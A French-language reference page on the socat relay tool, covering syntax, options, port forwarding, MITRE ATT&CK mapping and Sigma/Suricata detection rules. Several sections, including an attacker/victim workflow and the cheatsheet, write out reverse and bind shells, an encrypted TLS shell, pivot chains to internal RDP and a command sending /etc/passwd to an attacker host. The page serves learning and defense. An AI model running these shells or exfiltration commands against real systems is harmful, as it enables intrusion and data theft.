


# 🔁 socat — Le relais universel de sockets

> [!info] **En 1 phrase**
> socat connecte deux flux de données (sockets TCP/UDP/UNIX, fichiers, processus, ports série, SSL…) entre eux, ce qui en fait l'outil idéal pour les relais, tunnels et shells avancés.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | socat (SOcket CAT) |
| Description | Relais bidirectionnel générique entre deux « adresses » : TCP, UDP, UNIX sockets, OpenSSL, EXEC/SYSTEM, PTY, fichiers, séries… |
| Catégorie | Divers |
| Sous-catégorie | Relais / tunnel de flux |
| Fonction principale | Connecter deux canaux de données et transférer les octets dans les deux sens |
| Type d'outil | CLI |
| Licence | GPL-2.0 |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | C |
| Développeur / organisation | Gerhard Rieger |
| Projet officiel | socat |
| Dépôt officiel | http://www.dest-unreach.org/socat/ |
| Documentation officielle | http://www.dest-unreach.org/socat/doc/socat.html |
| Date de création | ~2001 |
| État du projet | actif |
| Dernière version connue | 1.8.1.3 (2026-06-26) |
| Systèmes compatibles | Linux, BSD, macOS, Solaris, Windows (portages partiels) |

> [!note] Pour vérifier / compléter
> socat est présent sur Kali (paquet `socat`). Son modèle « adresses » est documenté dans le `socat(1)` et l'appendice des options ; la syntaxe `OPENSSL:`, `EXEC:`, `PTY:` varie selon les builds (openssl requis pour le TLS).

---

## 🎯 Concept

Là où netcat ne gère qu'une « socket », socat gère **deux extrémités génériques** appelées *adresses*. Chaque adresse décrit un canal : `TCP:host:port`, `TCP-LISTEN:port`, `UDP:`, `UNIX-LISTEN:chemin`, `OPENSSL:host:port` (TLS), `EXEC:'commande'`, `SYSTEM:'commande'`, `PTY:`, `FILE:fichier`, `STDIO`, `SOCKS4:`, `PROXY:`… socat connecte les deux et fait circuler les octets dans les deux sens, avec une **couche d'options** (bind, reuseaddr, fork, timeout, buffer) sur chaque adresse.

Ce modèle en fait l'outil le plus expressif de la famille netcat : on fait du **port forwarding** (`TCP-LISTEN:8080,fork,reuseaddr TCP:cible:80`), du **relais chiffré** (`OPENSSL-*`), des **shells interactifs propres** (combinaison `EXEC:...,pty,stderr,setsid,sane`), des **tunnels UNIX→TCP**, du **relais proxy/SOCKS**, et même des **connexions multicast/série**.

En cybersécurité offensive, socat est le roi du **pivot et du tunnel** (T1572 Protocol Tunneling) : il transforme un poste compromis en relais vers un segment isolé, chiffre les flux avec OpenSSL, et produit des shells de meilleure qualité que netcat (PTY, stderr, signal). En défense, il sert à tester des équipements, relayer des logs ou chiffrer des flux internes.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Adresse | Une extrémité du relais : `TCP:host:port`, `TCP-LISTEN:port`, `UDP:`, `UNIX-LISTEN:`, `OPENSSL:`, `EXEC:`, `PTY:`… |
| Options d'adresse | Paramètres suffixés après `,` : `fork`, `reuseaddr`, `bind=`, `backlog=`, `verify=0`, `cert=`… |
| fork | Duplique le processus par connexion entrante → serveur multi-clients |
| reuseaddr | Autorise la ré-utilisation immédiate du port (essentiel en écoute répétée) |
| Unidirectionnel | `-u` (écrit seulement) / `-U` (lit seulement) pour du transfert mono-sens |
| PTY | `PTY:` crée un pseudo-terminal : interactions interactives (vim, top, su) |
| Chiffrement | `OPENSSL-LISTEN:` / `OPENSSL:` avec `cert=`, `key=`, `verify=0` |
| Relais chaîné | Deux socat se connectent l'un à l'autre pour traverser plusieurs hôtes (pivot) |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
sudo apt update && sudo apt install -y socat
```

### Arch Linux

```bash
sudo pacman -S socat
```

### Fedora / RHEL

```bash
sudo dnf install -y socat
```

### macOS

```bash
brew install socat
```

### Compilation depuis les sources

```bash
wget http://www.dest-unreach.org/socat/download/socat-1.8.1.3.tar.gz
tar xzf socat-1.8.1.3.tar.gz && cd socat-1.8.1.3
./configure && make -j$(nproc)
sudo make install
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Le support OpenSSL nécessite les dev headers (`libssl-dev`) à la compilation ; les paquets binaires l'incluent.
> - L'écoute sur port < 1024 requiert root.
> - Windows : socat n'est pas natif ; utiliser WSL ou Cygwin.
> - `fork` + `TCP-LISTEN` : attention aux processus zombies sans gestion propre (utiliser `reuseaddr` et nettoyer).

---

## ⚙️ Configuration

socat n'a pas de fichier de config : tout passe par les adresses et leurs options. Les combinaisons récurrentes pour l'automatisation.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `,fork` | Fork par connexion | — | Accepte plusieurs connexions simultanées | `TCP-LISTEN:4444,fork` |
| `,reuseaddr` | Réutiliser le port | 0/1 | Évite « address already in use » | `TCP-LISTEN:4444,reuseaddr` |
| `,bind=<ip>` | Forcer l'adresse d'écoute | IP | Restreint l'interface | `TCP-LISTEN:4444,bind=10.10.20.15` |
| `,cert=`/`,key=` | Certificat + clé (OpenSSL) | chemins PEM | Terminaison TLS serveur | `OPENSSL-LISTEN:4444,cert=s.pem,key=k.pem` |
| `,verify=0` | Désactiver la vérification TLS | 0/1 | Accepte les certificats auto-signés | `OPENSSL:host:4444,verify=0` |
| `,pty,stderr,setsid,sigint,sane` | TTY interactif | — | Shell avec terminal propre | `EXEC:/bin/bash,pty,stderr,setsid,sigint,sane` |
| `-u` / `-U` | Mode unidirectionnel | — | Écriture seule / lecture seule | `socat -u TCP:host:4444 FILE:f.txt` |
| `-T <sec>` | Timeout d'inactivité | secondes | Ferme le relais si silencieux | `-T 30` |
| `-b <N>` | Taille de buffer | octets | Optimise les gros transferts | `-b 65536` |
| `-d -v` | Diagnostic + verbosité | — | Trace de chaque octet | `socat -d -v …` |

---

## 🏗️ Architecture interne

socat construit une **chaîne de traitement** entre deux adresses : chaque adresse est un « endpoint » (socket, fichier, processus, PTY), et les données transitent par des *flow directions* configurables.

- **Adresse source** : première adresse (écoute ou connexion), avec ses options (bind, reuseaddr, backlog).
- **Adresse cible** : seconde adresse (connexion, écoute, processus…).
- **Transfert** : boucle de lecture/écriture bidirectionnelle entre les deux, bornée par les modes `-u`/`-U` (mono-sens).
- **fork** : au lieu de terminer après une connexion, socat `fork()` un fils par client — le père continue d'accepter.
- **PTY/EXEC** : le sous-processus est branché sur un pseudo-terminal ou sur des pipes, avec gestion des signaux (`sigint`, `sane`).
- **Chiffrement** : la couche OpenSSL enveloppe le flux (client `OPENSSL:` ou serveur `OPENSSL-LISTEN:`), avec vérification optionnelle.



---

## ⌨️ Commandes

### Commandes principales

```bash
socat [options] <adresse-source> <adresse-cible>
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `socat TCP-LISTEN:4444,fork,reuseaddr EXEC:/bin/bash` | Bind shell multi-clients | Shell sur le port 4444 |
| `socat TCP:10.10.20.15:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane` | Shell inversé interactif | TTY complet côté attaquant |
| `socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.20.15:80` | Port forwarding | Accès au port 80 via le 8080 |
| `socat TCP-LISTEN:4444,reuseaddr FILE:fichier.txt` | Envoyer un fichier | Le fichier est émis à la connexion |
| `socat TCP:10.10.20.15:4444 FILE:recu.txt` | Recevoir un fichier | Écrit le fichier reçu |
| `socat -d -v TCP-LISTEN:4444,fork SYSTEM:'date'` | Mini-serveur | Répond `date` à chaque client |
| `socat OPENSSL-LISTEN:4444,cert=s.pem,verify=0,fork TCP:10.10.20.15:80` | Relais TLS→TCP | Trafic chiffré vers la cible |
| `socat -u UNIX-LISTEN:/tmp/f.sock,reuseaddr FILE:log.txt` | Écrire un UNIX socket dans un fichier | Log collecté |

### Commandes avancées

```bash
# Tunnel TCP à travers un hôte pivot (chaîne de relais)
# Sur le pivot :
socat TCP-LISTEN:4444,fork,reuseaddr TCP-LISTEN:2222,fork,reuseaddr
# De l'attaquant : on passe par le pivot pour atteindre 2222

# Relais proxy SOCKS vers un service interne
socat TCP-LISTEN:1080,fork,reuseaddr SOCKS4:proxy.example.com:10.10.20.15:80

# UDP : relayer les datagrammes entre deux hôtes
socat UDP-LISTEN:5353,reuseaddr,fork UDP:10.10.20.15:5353
```

---

## 🎚️ Options et flags

| Option / Adresse | Description | Exemple | Niveau |
|---|---|---|---|
| `TCP:host:port` | Connexion TCP sortante | `TCP:10.10.20.15:80` | Basic |
| `TCP-LISTEN:port` | Écoute TCP | `TCP-LISTEN:4444` | Basic |
| `UDP:host:port` / `UDP-LISTEN:port` | UDP | `UDP-LISTEN:53` | Intermediate |
| `OPENSSL:host:port` | TCP chiffré (client) | `OPENSSL:host:4444,verify=0` | Intermediate |
| `OPENSSL-LISTEN:port` | TCP chiffré (serveur) | `OPENSSL-LISTEN:4444,cert=s.pem` | Intermediate |
| `EXEC:'cmd'` | Exécuter un programme | `EXEC:/bin/bash,pty` | Intermediate |
| `SYSTEM:'cmd'` | Exécuter via le shell | `SYSTEM:'ls -la'` | Intermediate |
| `PTY:` | Pseudo-terminal | `PTY,link=/tmp/term` | Advanced |
| `FILE:fichier` | Fichier | `FILE:data.txt` | Basic |
| `STDIO` | stdin/stdout | `STDIO` | Basic |
| `UNIX-LISTEN:` / `UNIX-CONNECT:` | Sockets UNIX | `UNIX-LISTEN:/tmp/s.sock` | Advanced |
| `SOCKS4:` / `PROXY:` | Passer par un proxy | `SOCKS4:px:host:80` | Expert |
| `-u` / `-U` | Unidirectionnel | `-u TCP:host:4444 FILE:f` | Intermediate |
| `-d` / `-v` | Diagnostic / verbosité | `-d -v` | Intermediate |
| `-t <sec>` | Délai de fermeture (EOF) | `-t 2` | Intermediate |
| `-T <sec>` | Timeout d'inactivité | `-T 30` | Advanced |
| `-b <N>` | Taille de buffer | `-b 65536` | Expert |
| `-V` | Version + infos de build | `socat -V` | Basic |

> [!tip] Options les plus utiles au quotidien
> `TCP-LISTEN:port,fork,reuseaddr` (serveurs), `EXEC:/bin/bash,pty,stderr,setsid,sigint,sane` (shell propre), `verify=0` (TLS), `-d -v` (débogage), `-u`/`-U` (transfert). Consulter `socat -hh` pour la liste exhaustive.

---

## 🧪 Exemples pratiques

### Beginner

```bash
# Relayer le port 8080 local vers un serveur web interne
socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.20.15:80

# Envoyer un fichier
socat TCP-LISTEN:4444,reuseaddr FILE:fichier.txt
socat TCP:10.10.20.15:4444 FILE:recu.txt
```

### Intermediate

```bash
# Shell inversé interactif (client) avec écouteur socat
socat TCP:10.10.20.15:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
# écouteur : socat TCP-LISTEN:4444,reuseaddr -

# Bind shell multi-clients
socat TCP-LISTEN:4444,fork,reuseaddr EXEC:/bin/bash
```

### Advanced

```bash
# Relais chiffré : le trafic entre relais et cible passe en TLS
socat TCP-LISTEN:4444,fork,reuseaddr OPENSSL:10.10.20.15:443,verify=0

# Tunnel UNIX socket → TCP (ex. pour Docker API)
socat TCP-LISTEN:2375,fork,reuseaddr UNIX-CONNECT:/var/run/docker.sock
```

### Expert

```bash
# Relais multi-sauts (pivot à travers deux hôtes)
socat TCP-LISTEN:4444,fork,reuseaddr TCP:10.10.20.15:4444
# puis, sur 10.10.20.15 :
socat TCP-LISTEN:4444,fork,reuseaddr TCP:192.168.1.10:3389
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Étape 1 — Écouter côté attaquant** :
   ```bash
   socat TCP-LISTEN:4444,reuseaddr -
   ```
2. **Étape 2 — Obtenir un shell interactif côté victime** :
   ```bash
   socat TCP:10.10.20.15:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
   ```
3. **Étape 3 — Interagir** — le PTY permet les outils interactifs :
   ```bash
   whoami; python3 -c 'import pty; pty.spawn("/bin/bash")'
   ```
4. **Étape 4 — Exfiltrer un fichier** sur un second canal :
   ```bash
   # attaquant : socat TCP-LISTEN:4445,reuseaddr FILE:passwd.txt
   # victime   : socat TCP:10.10.20.15:4445 FILE:/etc/passwd
   ```
5. **Étape 5 — Fermer proprement** — `exit`, puis `pkill socat` si nécessaire.

---

## 🎬 Scénarios avancés

### Scénario 1 : pivot vers un segment isolé

```bash
# La victime (10.10.20.15) voit le segment 192.168.1.0/24
socat TCP-LISTEN:4444,fork,reuseaddr TCP:192.168.1.10:3389
# L'attaquant se connecte au port 4444 de la victime pour atteindre RDP interne
```

### Scénario 2 : reverse shell chiffré (TLS)

```bash
# Générer un certificat auto-signé
openssl req -x509 -newkey rsa:2048 -keyout k.pem -out c.pem -days 365 -nodes
# Écouteur TLS
socat OPENSSL-LISTEN:4444,cert=c.pem,key=k.pem,verify=0,fork EXEC:/bin/bash
# Client TLS
socat OPENSSL:10.10.20.15:4444,verify=0 EXEC:/bin/bash,pty,stderr,sane
```

### Scénario 3 : relais de log vers un collecteur

```bash
# Un serveur écrit ses logs dans une socket UNIX, on les relaie en TCP
socat -u UNIX-LISTEN:/var/run/app.sock,fork TCP:10.10.20.15:514
```

### Scénario 4 : partage de fichier multi-clients

```bash
# Le fichier est émis à chaque connexion entrante
socat -u TCP-LISTEN:4444,fork,reuseaddr FILE:rapport.pdf
```

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Post-exploitation | Shells interactifs (PTY), transferts fiables |
| Pivot / Lateral Movement | Relais vers segments internes (T1572 Protocol Tunneling) |
| C2 | Tunnels chiffrés OPENSSL, relais (T1090 Proxy) |
| Exfiltration | Sortie de données via TLS/proxy/UNIX (T1048) |
| Défense | Relais de logs, tests de connectivité, chiffrement de flux |
| Lab | Simulation de topologies réseau complexes |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Command and Control | Protocol Tunneling | T1572 | socat encapsule/relaie des flux dans d'autres protocoles (pivot) | Analyse de protocoles, tailles de flux | Inspection réseau, segmentation |
| Command and Control | Proxy | T1090 | Relais `TCP-LISTEN … TCP:` pour rebondir | Flux vers relais inattendus | Politique egress, logs |
| Command and Control | Non-Application Layer Protocol | T1095 | Connexions brutes TCP/UDP sans protocole applicatif | Analyse de flux | Egress control |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 | Transfert de données via TLS/UNIX/SOCKS | Volumes sortants, DLP | Proxy, politique egress |
| Lateral Movement | Remote Services | T1021 | Relais vers RDP/SSH internes via pivot | Connexions internes inhabituelles | Segmentation, MFA |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> socat est un outil de relais générique : son usage « malveillant » se traduit surtout par T1572 (tunneling) et T1090 (proxy). L'usage légitime (relais de logs, tests) est massif — toujours croiser avec le contexte.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Process `socat` avec `TCP-LISTEN`/`EXEC`/`OPENSSL` | EDR, Sigma, supervision process |
| Ports en écoute non répertoriés (relais) | `ss -tlnp`, scans internes |
| Connexions de relais vers des segments internes | Netflow, analyse de trajectoires |
| Certificats auto-signés inattendus | Inventaire des certificats |
| Binaires socat déposés hors paquet | YARA, intégrité des fichiers |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — Linux : socat utilisé en écoute/relais avec exécution
title: Socat Relay or Shell Listener
id: 8c5a3f6d-2b4e-4d9f-8a1c-7e2f3a4b5c6d
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        Image|endswith: '/socat'
        CommandLine|contains:
            - 'TCP-LISTEN'
            - 'EXEC'
            - 'SYSTEM'
            - 'PTY'
    condition: selection
falsepositives:
    - Legitimate relay or lab use
level: medium
```

```bash
# Suricata/Snort — exemple pédagogique : relais vers un port RDP interne
alert tcp any any -> any 3389 (msg:"Possible pivot to internal RDP"; flow:to_server; flags:S; sid:1000006; rev:1;)
```

> [!note] À vérifier
> socat est un outil légitime très répandu (relais de logs, dev) : les règles doivent être calibrées et croisées avec l'inventaire des services.

---

## 🤖 Automatisation

```bash
# Bash — démarrer un relais persistant avec journal
nohup socat -d -d TCP-LISTEN:4444,fork,reuseaddr TCP:10.10.20.15:80 \
  >> /var/log/socat-relay.log 2>&1 &

# Bash — relayer chaque fichier d'un dossier à la demande
for f in /tmp/out/*; do socat TCP-LISTEN:4444,reuseaddr FILE:"$f"; done
```

```python
# Python — lancer un relais socat et vérifier le port
import socket, subprocess
subprocess.Popen(["socat", "TCP-LISTEN:8080,fork,reuseaddr",
                  "TCP:10.10.20.15:80"])
s = socket.socket()
s.settimeout(2)
s.connect(("127.0.0.1", 8080))   # le relais répond
s.close()
```

---

## 📤 Output et parsing

socat produit ses diagnostics sur **stderr** avec `-d` (niveaux 1 à 4) et `-v` (dump hexadécimal des données). Les données applicatives transitent par les adresses (stdout ou fichiers).

```bash
# Diagnostic + dump des octets échangés
socat -d -d -v TCP-LISTEN:4444,fork SYSTEM:'date' 2> trace.log

# Analyse de la trace
grep -E "received|sent" trace.log | head
```

```text
# Sortie type (-d -d -v)
2026/08/16 12:00:00 socat[1234] N opening connection to AF=2 ...
2026/08/16 12:00:00 socat[1234] N allowing connection from 10.10.20.15
2026/08/16 12:00:00 socat[1234] I > 32 bytes
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Netcat]] / [[Outil - Ncat]] — les cousins simples ; socat est l'évolution riche
- [[Outil - tshark]] / [[Outil - tcpdump]] — valider le trafic des relais (décryptage OPENSSL impossible sans clés)
- [[Outil - Scapy]] — complément pour la forgerie côté réseau
- [[Outil - Metasploit]] — socat est souvent utilisé pour des pivots manuels complémentaires

```text
socat TCP-LISTEN:8080,fork TCP:cible:80   →  port forwarding
socat OPENSSL-LISTEN:4444,cert=c.pem,verify=0,fork EXEC:/bin/bash  →  shell TLS
socat TCP-LISTEN:1080,fork SOCKS4:proxy:host:80  →  relais proxy
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Ncat | Simple, TLS, proxy intégré | Moins d'adresses (pas UNIX/PTY/série) | Remplacement direct de netcat |
| Netcat | Universel, minimal | Pas de TLS/relais avancés | Fallback |
| OpenSSH (`-L/-R/-D`) | Tunnels fiables, authentifiés | Nécessite un serveur SSH | Tunnels persistants |
| `sshuttle` | VPN sur SSH, tout le trafic | Dépend de SSH/Python | Pivot complet |

> **Quand utiliser socat plutôt que Ncat/SSH ?** Dès qu'il faut relier des canaux hétérogènes (UNIX, PTY, série, SSL) ou construire des chaînes de relais fines. Pour un simple shell ou un tunnel SSH, Ncat/OpenSSH suffisent.

---

## ⚡ Performance

- **Buffering** : `-b` règle la taille des buffers — à augmenter (64 Ko) pour les gros transferts.
- **Unidirectionnel** : `-u`/`-U` évitent le coût de la double direction pour du mono-sens.
- **fork** : chaque connexion est un processus fils — coût mémoire/CPU par client ; `-T` borne les sessions inactives.
- **TLS** : le chiffrement OpenSSL ajoute un coût CPU ; `verify=0` ne l'accélère pas (vérification ≠ chiffrement).
- **Limites** : socat est un relais « utilisateur » (pas kernel) — pour du haut débit, préférer iptables/NAT ou des outils dédiés.

> [!note] À vérifier
> Les performances dépendent du matériel, du mode (fork, TLS) et du buffer ; mesurer avec `-v` ou `pv` sur ses propres flux.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « Address already in use »

- **Cause** : port encore occupé par une connexion précédente (TIME_WAIT).
- **Solution** : ajouter `,reuseaddr` à l'écoute.
- **Vérification** : `ss -tlnp | grep 4444`.

#### Problème : le shell est cassé / pas interactif

- **Cause** : pas de PTY, stderr perdu.
- **Solution** : `EXEC:/bin/bash,pty,stderr,setsid,sigint,sane`.
- **Vérification** : `vim`/`su` fonctionnent après stabilisation.

#### Problème : échec du handshake OpenSSL

- **Cause** : certificat inconnu, clé absente, ou version TLS incompatible.
- **Solution** : `verify=0` côté client ; serveur avec `cert=` + `key=` valides.
- **Vérification** : `socat -d -d OPENSSL:host:4444,verify=0 -`.

#### Problème : le relais ne transmet qu'une direction

- **Cause** : mode `-u`/`-U` involontaire ou fork mal placé.
- **Solution** : retirer `-u` pour du bidirectionnel ; vérifier la syntaxe des adresses.
- **Vérification** : `-d -v` montre les octets reçus/envoyés.

#### Problème : processus socat multipliés (zombies)

- **Cause** : `fork` sans nettoyage, sessions jamais fermées.
- **Solution** : `-T <sec>` (timeout d'inactivité), tuer les processus orphelins.
- **Vérification** : `ps aux | grep socat`.

---

## 🔐 Sécurité de l'outil

- **Chiffrement** : `OPENSSL-*` protège le flux ; sans lui tout est en clair.
- **Vérification TLS** : `verify=0` autorise les certificats auto-signés → vulnérable au MITM si utilisé sans précaution.
- **Exécution** : `EXEC:`/`SYSTEM:` donnent un accès complet à la machine — ne jamais exposer un relais EXEC sans restriction.
- **Exposition** : un `TCP-LISTEN` sur 0.0.0.0 est accessible à tous — restreindre avec `bind=` ou un pare-feu.
- **Traces** : les processus socat sont visibles ; les dumps `-v` contiennent les données (donc potentiellement des secrets).
- **Autorisations** : les pivots/tunnels sans autorisation sont illégaux ; documenter chaque relais.

---

## ⚠️ Limitations

- Syntaxe complexe (adresses + options) : courbe d'apprentissage réelle.
- Relais « utilisateur » : débit limité vs iptables/NAT.
- Windows non natif (WSL/Cygwin recommandés).
- `fork` = un processus par connexion (coût scalaire).
- La vérification TLS est désactivée par défaut sur certains exemples (`verify=0`) : risque de MITM.
- Pas de multiplexage applicatif : un relais = un flux.

---

## 📋 Cheatsheet

```bash
# Bind shell multi-clients
socat TCP-LISTEN:4444,fork,reuseaddr EXEC:/bin/bash

# Shell inversé interactif
socat TCP:10.10.20.15:4444 EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
socat TCP-LISTEN:4444,reuseaddr -

# Port forwarding
socat TCP-LISTEN:8080,fork,reuseaddr TCP:10.10.20.15:80

# Transfert de fichier
socat TCP-LISTEN:4444,reuseaddr FILE:fichier.txt
socat TCP:10.10.20.15:4444 FILE:recu.txt

# TLS
socat OPENSSL-LISTEN:4444,cert=c.pem,key=k.pem,verify=0,fork EXEC:/bin/bash

# Diagnostic
socat -d -d -v TCP-LISTEN:4444,fork SYSTEM:'date'
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Relier deux flux de données (TCP/UDP/UNIX/PTY/SSL/processus/fichiers) |
| **Quand l'utiliser ?** | Relais, tunnels, pivots, shells interactifs, port forwarding, relais de logs |
| **Commande principale** | `socat TCP-LISTEN:4444,fork,reuseaddr EXEC:/bin/bash` |
| **Alternative principale** | [[Outil - Ncat\|Ncat]], [[Outil - Netcat\|Netcat]], OpenSSH tunnels |
| **Concepts importants** | adresses + options, `fork`, `reuseaddr`, PTY, `OPENSSL:`, `-u`/`-U` |
| **Liens associés** | [[Outil - Ncat]] · [[Outil - Netcat]] · [[Outil - Metasploit]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Process `socat` avec `TCP-LISTEN`/`EXEC`/`SYSTEM` | EDR + Sigma, whitelisting |
| Ports en écoute non inventoriés | `ss -tlnp`, scans internes réguliers |
| Relais vers segments internes | Netflow, analyse de trajectoires |
| Certificats auto-signés en écoute | Inventaire des certificats |
| Binaires socat non signés déposés | YARA, intégrité des fichiers |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Toujours mettre `,reuseaddr` sur les écoutes répétées.
> - `,fork` pour accepter plusieurs connexions simultanées.
> - Pour un shell propre : `EXEC:/bin/bash,pty,stderr,setsid,sigint,sane`.
> - `-d -d -v` pour tracer chaque octet pendant le débogage.
> - `-T <sec>` ferme les sessions inactives (évite les processus zombies).

> [!warning] ⚠️ **Pièges**
> - Un `TCP-LISTEN` sur 0.0.0.0 expose le service à tout le réseau.
> - `verify=0` = pas de vérification de certificat = vulnérable au MITM.
> - Oublier `fork` : le relais se ferme après la première connexion.
> - Confondre adresse source/cible : socat est asymétrique.
> - Relayer du trafic sensible en clair sans `OPENSSL:` expose les données.

---

## 📚 References

### Official

- Page d'accueil socat : http://www.dest-unreach.org/socat/
- Documentation complète : http://www.dest-unreach.org/socat/doc/socat.html
- Man page socat(1) : https://linux.die.net/man/1/socat
- Téléchargements : http://www.dest-unreach.org/socat/download/

### Security references

- MITRE ATT&CK T1572 — Protocol Tunneling : https://attack.mitre.org/techniques/T1572/
- MITRE ATT&CK T1090 — Proxy : https://attack.mitre.org/techniques/T1090/
- MITRE ATT&CK T1048 — Exfiltration Over Alternative Protocol : https://attack.mitre.org/techniques/T1048/
- MITRE ATT&CK T1021 — Remote Services : https://attack.mitre.org/techniques/T1021/

### Community

- GTFOBins (socat) : https://gtfobins.github.io/gtfobins/socat/
- HackTricks — pivoting & tunneling : https://book.hacktricks.xyz/network-services-pentesting/pivoting-tunneling-and-port-forwarding
- PayloadsAllTheThings — reverse shells (socat) : https://swisskyrepo.github.io/PayloadsAllTheThings/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet/

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - Netcat|Netcat]] · [[Outil - Ncat|Ncat]] · [[Outil - Nmap|Nmap]] · [[Outil - Metasploit|Metasploit]]
